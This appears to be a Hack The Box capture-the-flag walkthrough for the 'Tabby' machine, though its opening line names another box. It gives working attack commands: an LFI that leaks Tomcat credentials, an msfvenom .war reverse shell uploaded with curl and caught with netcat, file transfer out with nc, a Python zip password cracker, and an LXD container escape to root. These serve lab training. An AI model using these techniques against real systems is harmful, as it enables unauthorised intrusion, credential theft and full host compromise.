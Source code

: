 # Hack The Box - Tabby

## This is my writeup and walkthrough for Obscurity from Hack The Box.


![cover](https://user-images.githubusercontent.com/36403473/86299941-cbe51a80-bc01-11ea-801b-3c4a276e6143.jpg)

## an easy linux machine with some vulnerable LFI 

## `Enumeration`
   
#### 1-Nmap 
  `nmap -sC -sV 10.10.10.194`

```
theblock@python-4004:~$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 01:22 EET
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.47s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
###### My focus was on Port 80 `http Apache httpd 2.4.41 ((Ubuntu))` ,and 8080 running a http Apache called `Tomcat`. 

#### 2-website

![Screenshot from 2020-07-02 01-34-45](https://user-images.githubusercontent.com/36403473/86300983-ecfb3a80-bc04-11ea-81d9-2d1be55f2920.png)

##### Ckeck site very well moving to `news` page founding  paramter `files` 

![Screenshot from 2020-07-02 01-33-13](https://user-images.githubusercontent.com/36403473/86301124-4cf1e100-bc05-11ea-906c-1b77164f5826.png)

##### First i thought it may be `LFI` and it was right expectation but let’s add 10.10.10.194 to our `/etc/hosts` file  

![Screenshot from 2020-07-02 02-09-29](https://user-images.githubusercontent.com/36403473/86302713-c8ee2800-bc09-11ea-8f35-3453aedf8d99.png)
 
##### the second step to exploit but i need more information now the role of port `8080`
#####   checking this port `10.10.10.194:8080`


![Screenshot from 2020-07-02 02-23-24](https://user-images.githubusercontent.com/36403473/86303303-bd9bfc00-bc0b-11ea-8ed6-33fa5e11bbab.png)
 
The `CATALINA_HOME` and `CATALINA_BASE` environment variables are used to 
specify the location of Apache Tomcat and the location of its active configuration, respectively.

this information is very important `Users are defined in /etc/tomcat9/tomcat-users.xml.` okey lets see our users using `CATALINA_HOME`
i think its very important to see Apache Tomcat 8 docs ,googling and lets try to get usrs from `tomcat-users.xml`
[Tomcat docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)


![lfi](https://user-images.githubusercontent.com/36403473/86301222-95110380-bc05-11ea-8f59-d41dbaa6f153.png)
 very good i have `tomcat` password `$3cureP4s5w0rd123!`
no i can acess `The host-manager` but i dont have any authorization to  upload any shell on this server so lets googling maybe find way.
i found an exploitaion to this server [Tomcat exploitaion](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)
now from `LFI` we can get `RCE` 
### Exploitation
 
 Exploitation is  to Generate `.war` Format Backdoor,We can use msfvenom for generating a `.war` format backdoor for java/jsp payload, all you need to do
 is just follow the given below syntax to create a `.war` format file and then run Netcat listener.
 ```
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.120 LPORT=1234 -f war > kk.war
 nc -lvp 1234
 ```
 Deploy A New Application from a Local Path from this path `http://10.10.10.194:8080/manager/text/deploy?path=filename` this mentioned in the documentation 
 
 using curl command to send `.war` file to server 
```
curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file kk.war "http://10.10.10.194:8080/manager/text/deploy?path=/kk.war"
```
checking context `http://10.10.10.194:8080/manager/text/deploy?config=file:/path/context.xml`

![server file](https://user-images.githubusercontent.com/36403473/86305635-6cdbd180-bc12-11ea-8ace-28c853d22d85.jpg)
###### `kk.war` is uploaded successfully 

![connect2](https://user-images.githubusercontent.com/36403473/86305804-deb41b00-bc12-11ea-9efc-bfa48c11f726.jpg)

connected to machine and upgrade to tty shell  `python3 -c 'import pty; pty.spawn("/bin/bash")'` or to upgrade to full  tty shell use this commands 

 ``` 
    /usr/bin/script -qc /bin/bash /dev/null
     Ctrl-Z
     stty raw -echo
     fg
     Ctrl-Z
    
````
### Privilege Escalation
#### 1- Own User
in this step lets discover system and search for any things that seem important to escalate your privilege
in /home/ash i couldnt go inside lets look deeper 
in `/var/www/html/files` i found `16162020_backup.zip` that need password to be unziped so i copy this zip file from target machine to my machine by nc command 
``` 
target machine 
nc 10.10.16.120 4000 > 16162020_backup.zip
my machine 
nc -l -p 4000 < 16162020_backup.zip
````
i develop simple python code to crack this zip file password 

```
#!/usr/local/bin/python3
from tqdm  import tqdm 
import zipfile
import sys

wordlist = sys.argv[2]
zip_file = sys.argv[1]

zip_file = zipfile.ZipFile(zip_file)
n_words = len(list(open(wordlist, "rb")))

print("Total passwords to test:", n_words)
with open(wordlist, "rb") as wordlist:
    for word in tqdm(wordlist, total=n_words, unit="word"):
        try:
            zip_file.extractall(pwd=word.strip())
        except:
            continue
        else:
            print("[+] Password found:", word.decode().strip())
            exit(0)
print("[!] Password not found, try other wordlist.")
```
the password `admin@it`
And now we owned user ash:
getting usr.txt 

![Screenshot from 2020-07-02 03-54-33](https://user-images.githubusercontent.com/36403473/86308013-7700ce80-bc18-11ea-95c4-3cd1369c46d8.png)

#### 2- Own Root
This step took me a lot of time, although it was not difficult
but finally i own machine lets explian the exploit 
on seeig autherization by `id` 

![Screenshot from 2020-07-02 04-00-23](https://user-images.githubusercontent.com/36403473/86308347-40778380-bc19-11ea-93e7-e5d5122d8379.png)

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. 
This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. 
The vulnerability exists even with the LXD snap package.
[Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

#### Steps to be performed on the attacker machine:
1-Download build-alpine in your local machine through the git repository. 

2-Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

3-Transfer the tar file to the host machine

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

```
i upload all files on my localhost 

![Screenshot from 2020-06-30 17-24-49](https://user-images.githubusercontent.com/36403473/86310114-8afaff00-bc1d-11ea-856b-551651e35021.png)

on the target machine 
`wget  http://10.10.16.120/lxd-alpine-builder-master/alpine-v3.12-x86_64-20200630_1546.tar.gz` on `/tmp` or /`home`

After the image is built it can be added as an image to LXD as follows:
`lxc image import alpine-v3.12-x86_64-20200630_1546.tar.gz --alias myimage`
`lxc image list`
![lxc](https://user-images.githubusercontent.com/36403473/86310258-e62cf180-bc1d-11ea-92a5-898b77719e79.png)

 ```
 lxc init myimage ignite -c security.privileged=true
 lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
 lxc start ignite
 lxc exec ignite /bin/sh
 id
````
Once inside the container, navigate to /mnt/root to see all resources from the host machine.
After running the bash file. We see that we have a different shell, it is the shell of the container. 
This container has all the files of the host machine. So, we enumerated for the flag and found it.

```
mnt/root/root
ls
flag.txt
cat flag.txt
```
![root](https://user-images.githubusercontent.com/36403473/86310532-a1ee2100-bc1e-11ea-8bb1-bf272f231d6c.png)

#### now  we owned machine 

